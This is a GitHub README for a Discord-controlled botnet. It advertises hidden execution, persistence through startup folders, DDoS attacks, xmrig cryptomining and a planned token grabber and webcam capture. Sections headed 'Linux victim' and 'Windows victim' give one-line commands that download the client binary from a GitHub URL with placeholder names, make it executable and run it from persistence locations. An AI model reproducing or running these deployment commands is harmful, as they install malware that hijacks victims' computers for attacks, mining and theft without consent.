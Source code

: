 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Zmap entine network scan
* Token grabber
* Webcam picture
* ?

# Commands
![image](https://user-images.githubusercontent.com/104208624/203849645-908bde50-bd0a-49fa-9a8a-1f948953677e.png)

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" && if exist Client.exe del Client.exe && powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe && Client.exe
